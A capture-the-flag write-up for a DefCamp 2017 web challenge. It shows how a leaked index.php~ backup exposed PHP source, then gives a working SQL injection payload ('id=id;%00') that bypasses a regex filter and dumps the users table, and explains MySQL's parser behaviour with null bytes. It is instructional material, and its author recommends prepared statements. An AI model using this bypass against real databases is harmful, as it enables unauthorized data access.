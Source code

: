 # Are you brave enough?
**Description:** You have a simple challenge, prove your web skills and get the flag.

## The challenge

We are given the address of a web page, [https://brave.dctf-quals-17.def.camp/](https://brave.dctf-quals-17.def.camp).
It appears to be pretty simple, only returning `Nop`:

```
$ http GET https://brave.dctf-quals-17.def.camp/
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 13
Content-Type: text/html; charset=UTF-8
Date: Mon, 02 Oct 2017 22:59:31 GMT
Server: nginx/1.10.3 (Ubuntu)
Strict-Transport-Security: max-age=31536000; includeSubdomains
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block

<h3>Nop.</h3>
```

The same thing happens if we use other http methods like `POST` or `PUT` or `PATCH`.

## The exploit

This took me way too long and is another reminder that you should automate checking for these: some editors create backup by appending a `~` to the file name. 
While `dirbuster` was forbidden, I should have used a small handcrafted list just checking very common stuff like backup files or `robots.txt` and I wouldn't have lost so much time on this.
As you may have already guessed now, we can find left over backup file from `index.php` that exposes the source code of the site:

```
$ http GET https://brave.dctf-quals-17.def.camp/index.php~
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: keep-alive
Content-Length: 681
Date: Mon, 02 Oct 2017 23:07:34 GMT
ETag: "2a9-55a53c46ad0f1"
Last-Modified: Fri, 29 Sep 2017 13:11:47 GMT
Server: nginx/1.10.3 (Ubuntu)
Strict-Transport-Security: max-age=31536000; includeSubdomains
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block

<?php

$db  = mysqli_connect('localhost','web_brave','','web_brave');

$id  = @$_GET['id'];
$key = $db->real_escape_string(@$_GET['key']);

if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected

$query = "SELECT `id`,`name`,`key` FROM `users` WHERE `id` = $id AND `key` = '".$key."'";
$q = $db->query($query);

if($q->num_rows) {
    echo '<h3>Users:</h3><ul>';
    while($row = $q->fetch_array()) {
        echo '<li>'.$row['name'].'</li>';
    }

    echo '</ul>';
} else {
    die('<h3>Nop.</h3>');
}
```

This looks like a standard SQL injection, we only have to find a query that passes the regex. On example that works:

```
$ http GET 'https://brave.dctf-quals-17.def.camp/index.php?id=id;%00'
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Length: 128
Content-Type: text/html; charset=UTF-8
Date: Mon, 02 Oct 2017 23:14:59 GMT
Server: nginx/1.10.3 (Ubuntu)
Strict-Transport-Security: max-age=31536000; includeSubdomains
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block

<h3>Users:</h3><ul><li>Try Harder</li><li>DCTF{602dcfeedd3aae23f05cf93d121907ec925bd70c50d78ac839ad48c0a93cfc54}</li></ul>
```

This request results in the following query:

```sql
SELECT `id`, `name`, `key` FROM `users` WHERE `id` = id;\0 AND `key` = '""';
```

The `id = id` condition is always true and `;\0` terminates the query so the remaining part of it is ignored.
This way, we can retrieve all entries in the database which reveals the flag.

## The interesting part: why is the semicolon required?

The standard explanation as for why the above query works is this: because C strings use the null byte to mark the end of the string, MySQL will incorrectly assume that the string ends at the null byte and thus ignore the rest.
By that explanation, MySQL interprets the query as if was:

```
SELECT `id`, `name`, `key` FROM `users` WHERE `id` = id;
```

But, that leaves an interesting question: why do we need the `;` character? Usually, MySQL does not require queries to be terminated by `;`, and indeed, the following query works:

```sql
SELECT `id`, `name`, `key` FROM `users` WHERE `id` = id
```

But this does *not* work:

```sql
SELECT `id`, `name`, `key` FROM `users` WHERE `id` = id\0 AND ...
```

So our theory that MySQL just ignores everything after a null byte does not explain everything.
Investigating further, we can take a look at the MySQL source code to see how it parses queries. 
The parser is written using bison, and the [top-level rule for parsing a query](https://github.com/mysql/mysql-server/blob/a533e2c786164af9bd276660b972d93649434297/sql/sql_yacc.yy#L1590) is:

```bison
query:
          END_OF_INPUT /* (1) empty query */
          {
            // irrelevant code omitted
            ...
          }
        | verb_clause /* (2) query followed by semicolon */
          {
            // irrelevant code omitted
            ...
          }
          ';'
          opt_end_of_input
        | verb_clause END_OF_INPUT /* (3) single query not followed by semicolon */
          {
            // irrelevant code omitted
            ...
          }
        ;

opt_end_of_input:
          /* empty */
        | END_OF_INPUT
        ;
```

What's this `END_OF_INPUT` token used here? Well, it turns out that there's actually *two* end of input tokens that are relevant here:

* token 0, `$eof` (internal bison token): This is the token that bison associates with the end of the input stream. It has the value 0, so it is generated whenever the lexer function `MYSQLlex` returns zero.
* token 420, `END_OF_INPUT`: This is a normal token (bison does not treat it specially in any way), but MySQL associates it with the end of input.

Now, the interesting thing is when these tokens are generated. The lexer knows the *real* length of the string, it does not need to rely on null byte terminators to determine it. But:

* `$eof` is generated whenever the lexer encounters a null byte, *except* if the null byte is at the end of the input (in that case, `END_OF_INPUT` is generated).

   See https://github.com/mysql/mysql-server/blob/a533e2c786164af9bd276660b972d93649434297/sql/sql_lex.cc#L2010, `MY_LEX_EOL` is the constant matching a null byte.
   When `lip->eof()` is false, we set the `state` to `MY_LEX_CHAR`, which means that the token that is returned is just the value of the current character.
   Because the current character is a null byte, the 0 token is returned which corresponds to the internal bison `$eof` token.
   
   When bison hits an `$eof` token, it will stop parsing. If the grammer was not fully matched at that point it is an error.
* `END_OF_INPUT` is only generated when we hit the *real* end of input, not when we hit a null byte.

Armed with these facts, we can now explain the behavior of MySQL:

* an empty query such as `""` parses correctly. This is rule `(1)` in the above code.
* a query without a terminating `;`, such as `SELECT * FROM users`, parses correctly because of rule `(3)`.
* a query without a terminating `;` but with a null byte followed by other data (example: `SELECT * FROM users\0some junk data`) will fail to parse. This is because rule `(3)` does not apply anymore: 
  it requires an `END_OF_INPUT` token, but a null byte only generates an `$eof` token. So bison gets an `$eof` token while it is still looking for the `END_OF_INPUT` token. This is an error.
* a query with a terminating `;` token followed by a null byte (such as `SELECT * FROM users;\0`) *will* work, because rule `(2)` above does not require the query to end with `END_OF_INPUT` (this make sense, because there may be other queries following the `;`). So bison will parse the query until the `;`, and at that point, hit `$eof`. But now the parse is successful, because it no longer *needs* an `END_OF_INPUT` token since that is not required if the query ends with `;`. 

To me, this feels like a bug in MySQL (MariaDB has the same issue). I think it would be better for MySQL to just fail parsing if a query contains a null byte that is not at the end of the query. I cannot think of a situation where the current behaviour would be useful, and disallowing null bytes in the middle of a query would prevent this security issue (of course, the proper solution would be to just use prepared statements / escape the `id` parameter, but it doesn't hurt to make these bugs at least harder to exploit.)
